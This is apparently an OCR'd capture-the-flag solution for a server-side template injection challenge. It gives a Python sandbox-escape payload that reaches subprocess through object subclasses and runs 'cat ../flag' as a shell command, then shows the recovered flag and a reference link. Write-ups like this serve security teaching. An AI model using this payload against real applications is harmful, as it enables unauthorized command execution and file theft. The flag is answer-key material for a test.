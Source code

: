 굿

|

## payload

```python
"".__class__.__mro__[1].__subclasses__()[351]('cat ../flag', shell = 1, stdout = -1).communicate()
```

|

|

### FLAG

---

```bash
K0{sst1_m4k3_m3_cr4zzzy}
```

|

|

|

## References

<https://tibetsandfox.tistory.com/26>

|

---